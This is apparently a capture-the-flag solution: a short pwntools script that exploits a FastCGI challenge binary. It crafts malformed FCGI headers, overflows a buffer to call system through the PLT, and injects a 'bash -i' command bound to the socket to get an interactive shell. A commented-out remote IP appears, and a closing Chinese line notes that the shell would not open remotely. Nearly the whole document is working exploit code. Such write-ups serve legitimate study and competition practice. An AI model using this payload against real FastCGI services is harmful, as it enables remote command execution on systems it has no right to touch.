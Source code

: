 ```python
#!/usr/bin/env python3
from pwn import *
import requests

exe = context.binary = ELF('./files/challenge')

def start(argv=[], *a, **kw):
    # return remote("35.241.98.126", 30642)
    return remote("127.0.0.1", 9999)

"""
typedef struct {
    unsigned char version;
    unsigned char type;
    unsigned char requestIdB1;
    unsigned char requestIdB0;
    unsigned char contentLengthB1;
    unsigned char contentLengthB0;
    unsigned char paddingLength;
    unsigned char reserved;
} FCGI_Header;
"""

def makeHeader(type, requestId, contentLength, paddingLength):
    header = p8(1) + p8(type) + p16(requestId) + p16(contentLength)[::-1] + p8(paddingLength) + p8(0)
    return header

"""
typedef struct {
    unsigned char roleB1;
    unsigned char roleB0;
    unsigned char flags;
    unsigned char reserved[5];
} FCGI_BeginRequestBody;
"""

def makeBeginReqBody(role, flags):
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

io = start()

header = makeHeader(9, 0, 900, 0)

io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + header + p8(0) * 2 + p32(0xffffffff) + p32(0xffffffff)  + b"a" * (4 * 4) + b" ;bash -i <&3 >&3 & " +p32(0) * 3 + p32(exe.plt["system"]) )

io.interactive()
```

### 远程无法打开shell
